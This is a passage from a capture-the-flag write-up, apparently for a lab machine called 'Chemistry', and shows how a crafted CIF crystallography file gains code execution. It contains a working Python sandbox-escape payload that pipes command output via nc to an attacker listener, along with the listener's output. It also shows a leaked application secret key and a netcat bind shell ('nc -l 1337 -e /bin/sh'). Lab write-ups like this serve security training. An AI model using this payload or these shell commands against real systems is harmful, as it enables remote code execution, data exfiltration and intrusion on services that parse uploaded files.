 ```text

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

After uploading and opening the file, a 10-second delay was triggered and this confirmed command execution. Next, I modified the payload to run the `uname -a` command and pipe the output to my ncat listener:
```text
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("uname -a | nc 10.10.14.87 4444");0,0,0'
```

Setup my ncat listener, uploaded the file with our payload, clicked to view the uploaded CIF file that contains the payload and got the command output sent back to us:
```shell
❯ ncat -l 10.10.14.87 -nvp 4444
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.87:4444
Ncat: Connection from 10.129.111.57:39802.
Linux chemistry 5.4.0-196-generic #216-Ubuntu SMP Thu Aug 29 13:26:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
```

### System Enumeration

Using the command execution vulnerability, I discovered:
- Two users on the system: `app` and `rosa`
- We were running as the `app` user
- Found an `app.py` file with exposed credentials:
  ```python
  app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
  app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
  ```
- Located the database file at `/home/app/instance/database.db`

### Establishing a Proper Shell

To make enumeration easier, I uploaded a netcat binary to the target and used it to establish a more stable connection. This was the command included in the cif payload after getting our nc binary on the target:
```bash
/home/app/nc -l 1337 -e /bin/sh
```

Then connected from my attacker machine:
```bash
ncat chemistry.htb 1337
```

## Lateral Movement

### Database Analysis
